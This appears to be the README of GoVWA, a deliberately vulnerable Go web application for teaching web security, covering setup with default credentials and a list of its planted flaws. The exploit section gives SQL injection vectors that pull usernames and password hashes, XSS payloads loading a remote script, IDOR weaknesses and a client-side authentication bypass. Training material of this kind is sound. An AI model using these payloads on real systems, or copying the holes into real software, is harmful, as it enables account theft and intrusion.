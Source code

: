 # GoVWA

GoVWA (Go Vulnerable Web Application) is a web application developed to help the pentester and programmers to learn the vulnerabilities that often occur in web applications which is developed using golang. Vulnerabilities that exist in GoVWA are the most common vulnerabilities found in web applications today. So it will help programmers recognize vulnerabilities before they happen to their application. Govwa can also be an additional application of your pentest lab for learning and teaching.

This was formerly known as <https://github.com/0c34/govwa>, package name 
`govwa`, however this doesn't sit well with how Go code is commonly
organised, therefore it was renamed here to
`github.com/ShiftLeftSecurity/Helloshiftleft-internal/helloshiftleftgo`,
which is also where we store it on GitHub.

# How To Install GoVWA

## Dependencies

- Golang
- MySQL

Set up MySQL as you like, e.g. with MySQL 8 something like this might suffice to have a working account for GoVWA to use:

```
USE mysql;
CREATE USER 'govwa@'localhost' IDENTIFIED BY 'password';
GRANT ALL ON *.* TO 'govwa@'localhost';
FLUSH PRIVILEGES;
```

If successfully installed you would have a directory `go` in your home directory. That directory has three subdirectories (`bin`, `pgk`, `src`). This project should be cloned into `src/github.com/ShiftLeftSecurity/Helloshiftleft-internal`.

Using Go modules dependency resolution should be automatic, simply `GO111MODULE=on go build` should take care of updating the dependencies for you.

Otherwise run the following to install the remaining Go dependencies:

```
go get github.com/go-sql-driver/mysql
go get github.com/gorilla/sessions
go get github.com/julienschmidt/httprouter
```

## GoVWA config

Open the file `./confic/config.json` and update the relevant fields (probably `username` + `password`) according to your mysql installation. You will most likely also want to add a new database with `create database govwa`.

## Run GoVWA

`go run app.go`

Open `http://192.168.56.101:8082/` to access GoVWA and follow the setup instructions to create database and tables

GoVWA users:

|uname|password|
|-----|--------|
|admin|govwaadmin|
|user1|govwauser1|

# Exploits

1. SQLi 1 (`/sqli1`):

User input through cookie `Uid`. Injects user input into WHERE clause of SELECT statement.
Exemplary vector: `1 UNION SELECT 1, uname, pass, 4 FROM Users`

This gets the username and password hash of a given user from the DB.

2. SQLi 2 (`/sqli2`):

User input through url parameter `uid`. Injects user input into the same statement as 1.
Exemplary vector: `1 UNION SELECT 1, uname, pass, 4 FROM Users`

This gets the username and password hash of a given user from the DB.

Also: It is possible to extract other user's information by changing the uid.

3. XSS 1 (`/xss1`):

User input through search term input field. Any input given is rendered into a `<b>` tag without sanitation and therefore executed.
Example: `<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>`

Can also be used with POST.

4. XSS 2 (`/xss2`):

The url parameter `uid` is parsed into a script tag as part of an assignment. One can therefore call functions for example.
Example: `$.getScript("http://xss.rocks/xss.js")`

It is again possible to extract other user's info by changing the uid.

5. IDOR 1 (`/idor1`):

The form parameter `uid` can be used to alter profiles of other users. As long as the cookie `Uid` and the form field `uid` match the request is taken care of and changes are written to the db.

6. IDOR 2 (`/idor2`):

The vulnerability is the same as in `/idor1` but with and added "security" feature. One has to send the MD5 hash of the given uid in order to be allowed to write to other user's profiles.

Disclaimer: The code behaves somewhat weird by breaking if you change the number of characters in `name` or `city` without adding/removing the same amount of characters in `number`.

7. CSA (`/csa`):

No real functionality. Except a green/red bar popping up depending on the response from the backend. If you use a proxy to tamper with the response you get a green bar regardless of your input.

The correct OTP is a value that has the MD5 hash of `a587cd6bf1e49d2c3928d1f8b86f248b`.
